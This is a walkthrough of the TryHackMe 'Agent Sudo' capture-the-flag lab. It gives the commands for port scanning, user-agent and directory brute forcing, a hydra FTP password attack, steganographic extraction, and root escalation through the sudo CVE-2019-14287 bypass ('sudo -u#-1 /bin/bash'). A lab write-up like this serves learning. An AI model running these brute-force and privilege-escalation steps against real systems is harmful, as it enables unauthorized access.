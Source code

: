 # 🕵️ Agent Sudo CTF Walkthrough  
*TryHackMe Room: Agent Sudo*  
*Difficulty: Easy*  
*Date: 2025-07-19*  
[🔗 Room Link](https://tryhackme.com/room/agentsudoctf)

---

## 🎯 Objective  
Gain access and capture the **user** and **root** flags.

---

## 🛠️ Enumeration

### 🔍 Nmap Scan

```

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

````

---

## 🌐 Web Recon

1. Homepage mentions:  
   > *"Use your own codename as user-agent..."*

2. Tried user-agent brute force:
   ```bash
   for letter in {A..Z}; do
     curl -s -A "Agent $letter" http://sudo.thm | grep -i codename
   done
````

3. Nothing useful found → tried dir brute force with correct user-agent:

   ```bash
   gobuster dir -u http://sudo.thm -w /usr/share/wordlists/dirb/common.txt -a "Agent Sudo"
   ```

→ Found: `/index.php` but no dynamic behavior. Moved on to FTP.

---

## 📂 FTP Brute-Force

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ftp://sudo.thm
```

→ **Found credentials (redacted)**

```bash
ftp sudo.thm
# Login: <REDACTED> / <REDACTED>
```

Downloaded files:

* `To_agentJ.txt`
* `cute-alien.jpg`
* `cutie.png`

---

## 🕵️ File Analysis & Stego

### 📜 `To_agentJ.txt`

> Mentions a password hidden inside the image.

---

### 🧩 PNG → Hidden ZIP

```bash
binwalk cutie.png
tail -c +34563 cutie.png > secret.zip
unzip -P <REDACTED> secret.zip
# Extracts: To_agentR.txt
```

---

### 🖼️ JPG Stego

```bash
steghide extract -sf cute-alien.jpg
# Passphrase: <REDACTED>
# Output: message.txt
```

---

## 🔐 SSH Access

```bash
ssh <REDACTED>@sudo.thm
# Password: <REDACTED>
```

✅ Retrieved **user flag**: `<REDACTED>`

---

## 🚀 Privilege Escalation

```bash
sudo -l
# (ALL, !root) /bin/bash
```

→ Exploit **CVE‑2019‑14287**:

```bash
sudo -u#-1 /bin/bash
whoami  # → root
cat /root/root.txt  # <REDACTED>
```

---

## 🛡️ Vulnerability Used

**CVE-2019-14287**

> A sudo misconfiguration allowing `sudo -u#-1` to execute as root even when explicitly denied.

---

## 📚 Key Takeaways

* Brute-force and user-agent spoofing can reveal hidden content.
* Basic steganography (binwalk, steghide) is still highly relevant.
* Misconfigured `sudo` permissions + known CVEs = easy root.
* Always examine available files and images for hidden data.

---

## 🏷️ Tags

`tryhackme` `ctf` `AgentSudo` `ftp` `steganography` `privesc` `sudo` `CVE-2019-14287`



